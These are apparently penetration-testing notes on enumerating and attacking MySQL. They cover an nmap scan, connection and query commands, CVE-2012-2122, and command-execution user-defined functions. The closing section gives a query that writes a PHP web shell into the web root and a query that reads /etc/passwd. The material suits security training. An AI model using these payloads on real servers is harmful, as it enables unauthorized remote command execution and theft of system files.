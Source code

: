 ```
# Nmap
sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*

# Interaction
mysql -u root -pHello -h 10.129.14.132
```

| **Command**                                          | **Description**                                                                                       |
| ---------------------------------------------------- | ----------------------------------------------------------------------------------------------------- |
| `mysql -u <user> -p<password> -h <IP address>`       | Connect to the MySQL server. There should **not** be a space between the '-p' flag, and the password. |
| `show databases;`                                    | Show all databases.                                                                                   |
| `use <database>;`                                    | Select one of the existing databases.                                                                 |
| `show tables;`                                       | Show all available tables in the selected database.                                                   |
| `show columns from <table>;`                         | Show all columns in the selected database.                                                            |
| `select * from <table>;`                             | Show everything in the desired table.                                                                 |
| `select * from <table> where <column> = "<string>";` | Search for needed `string` in the desired table.                                                      |

`MySQL` also supports different [authentication methods](https://dev.mysql.com/doc/internals/en/authentication-method.html), such as username and password, as well as Windows authentication (a plugin is required). In addition, administrators can [choose an authentication mode](https://docs.microsoft.com/en-us/sql/relational-databases/security/choose-an-authentication-mode) for many reasons, including compatibility, security, usability, and more. However, depending on which method is implemented, misconfigurations can occur.

In the past, there was a vulnerability [CVE-2012-2122](https://www.trendmicro.com/vinfo/us/threat-encyclopedia/vulnerability/2383/mysql-database-authentication-bypass) in `MySQL 5.6.x` servers, among others, that allowed us to bypass authentication by repeatedly using the same incorrect password for the given account because the `timing attack` vulnerability existed in the way MySQL handled authentication attempts.

`MySQL` default system schemas/databases:

- `mysql` - is the system database that contains tables that store information required by the MySQL server
- `information_schema` - provides access to database metadata
- `performance_schema` - is a feature for monitoring MySQL Server execution at a low level
- `sys` - a set of objects that helps DBAs and developers interpret data collected by the Performance Schema

`MySQL` supports [User Defined Functions](https://dotnettutorials.net/lesson/user-defined-functions-in-mysql/) which allows us to execute C/C++ code as a function within SQL, there's one User Defined Function for command execution in this [GitHub repository](https://github.com/mysqludf/lib_mysqludf_sys). It is not common to encounter a user-defined function like this in a production environment, but we should be aware that we may be able to use it.

**Read and Write Files**

```
# Checking if empty you have access
mysql> show variables like "secure_file_priv";

# Write shell
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

# Read file
mysql> select LOAD_FILE("/etc/passwd");
```


